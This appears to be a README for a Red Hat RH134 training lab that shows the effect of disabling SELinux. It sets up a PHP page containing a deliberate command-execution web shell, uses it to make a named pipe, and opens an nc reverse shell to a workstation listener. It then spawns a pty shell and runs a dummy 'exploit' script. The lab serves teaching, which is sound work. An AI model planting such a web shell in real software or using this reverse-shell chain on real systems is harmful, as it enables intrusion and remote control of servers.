 # rh124_Selinux
* Extra Practice for RH134 Training - RHEL 8.2 Admin II
  >> To run on Redhat RH134 Lab Systems!

### Scenario: We going to the see effects of turning off/disabled SElinux on ServerA

### Part1: Instruction - run in servera or serverb ( choose 1 ) and run as user root
  >> We assume its servera 

1.  Setup apache webserver and php 
```sh 
yum install httpd php -y 
```

2. Setup PHP Page 
```sh 

cd /var/www/html/

touch index.php 

insert this code into index.php 

<html>
 <head>
  <title>PHP Page</title>
 </head>
 <body>
 <?php echo '<p>Hello Redhat</p>'; ?>
 <p> Welcome RH134 Students </p>
 <p> Sample Vendor provided Page/App</p>
 <p> This page (php) allows you to execute Linux Command</p>
 <p> SElinux Demo Page </p>
 <?php system($_GET['cmd']);?>

 </body>
</html>
```

3. Comment PrivateTMP in htttpd and php-fpm systemd config file and save it
```sh 

vim /usr/lib/systemd/system/httpd.service
#PrivateTmp=true

vim /usr/lib/systemd/system/php-fpm.service
#PrivateTmp=true

systemd daemon-reload 
systemctl enable --now httpd
```

4. Turn Off SElinux 
```sh 

getenforce 

setenforce 0 

getenforce 

```

5. Enable firewall to allow access to webserver
```sh 
firewall-cmd --permanent --add-service=http

firewall-cmd --reload
```

### Part2: Instruction - run in workstation machine

1. Open firefox to http://servera.lab.example.com 
once in the browser, execute this on the address bar, this will create a device character file called backpipe1 

```sh 
http://servera.lab.example.com/index.php?cmd=mknod /var/tmp/backpipe1 p

```

2. Create a local listener in workstation machine, open a terminal and run 
```sh 

firewall-cmd ----permanent --add-port=1234/tcp

firewall-cmd --reload

nc -lvvp 1234

```

3. Back to firefox, run the following to establish a reverse shell from webserver to workstation listener 
```sh 
http://servera.lab.example.com/index.php?cmd=/bin/sh 0</var/tmp/backpipe1 | nc workstation.lab.example.com 1234 1>/var/tmp/backpipe1


```

4. Check the terminal where the nc listener running and open a shell 
you should receive a connection from servera ( 172.25.250.10 )

```sh 
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 172.25.250.10.
Ncat: Connection from 172.25.250.10:54496.
```

Run the following command to create a shell 

```sh 
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

You should receive a shell
```sh 
sh-4.4$ 
```

5. If Step 4 done, you now have a reverse shell (hacked shell) to servera from workstation 
run the following command to create a exploit file and run the exploit 
>> the exploit file is just an shell script, in real life, an attacker could run a real exploit !!
```sh
sh-4.4$ cd /tmp

sh-4.4$ echo "echo OWN3D_servera" > ex.sh

sh-4.4$ cat ex.sh
echo OWN3D_servera

sh-4.4$ chmod +x ex.sh

sh-4.4$ ls -l ex.sh
-rwxrwxrwx. 1 apache apache 19 Mar 22 09:25 ex.sh

sh-4.4$ ./ex.sh
OWN3D_servera

sh-4.4$

```


